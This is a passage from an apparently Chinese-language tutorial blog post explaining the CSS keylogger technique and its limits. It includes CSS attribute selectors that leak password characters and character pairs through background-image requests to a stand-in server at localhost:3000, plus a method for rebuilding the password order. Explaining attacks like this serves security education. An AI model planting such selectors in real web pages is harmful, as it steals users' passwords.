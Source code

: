 神奇吧！

如果你不熟悉 CSS selector，這邊幫你複習一下。上面那段意思就是說如果 type 是 password 的 input，value 以 a 結尾的話，背景圖就載入`http://localhost:3000/a` 。

現在我們可以把這串 CSS 改一下，新增大小寫英文字母、數字甚至是特殊符號，接著會發生什麼事呢？

如果我輸入 abc123，瀏覽器就會發送 Request 到：

1. http://localhost:3000/a
2. http://localhost:3000/b
3. http://localhost:3000/c
4. http://localhost:3000/1
5. http://localhost:3000/2
6. http://localhost:3000/3

就這樣，你的密碼就完全被攻擊者給掌握了。

這就是 CSS keylogger 的原理，利用 CSS Selector 搭配載入不同的網址，就能夠把密碼的每一個字元發送到 Server 去。

看起來很可怕對吧，別怕，其實沒那麼容易。

# CSS keylogger 的限制

## 不能保證順序

雖然你輸入的時候是按照順序輸入的，但 Request 抵達後端的時候並不能保證順序，所以有時候順序會亂掉。例如說 abc123 變成 bca213 之類的。

但如果我們把 CSS Selector 改一下的話，其實就能解決這個問題：

``` css
input[value^="a"] {
  background-image: url("http://localhost:3000/a_");
}
  
input[value*="aa"] {
  background-image: url("http://localhost:3000/aa");
}
  
input[value*="ab"] {
  background-image: url("http://localhost:3000/ab");
}
```

如果開頭是 a，我們就送出`a_`，接著針對 26 個字母跟數字的排列組合每兩個字元送出一個 request，例如說：abc123，就會是：

1. a_
2. ab
3. bc
4. c1
5. 12
6. 23

就算順序亂掉，透過這種關係你把字母重新組合起來，還是可以得到正確的密碼順序。

## 重複字元不會送出 Request
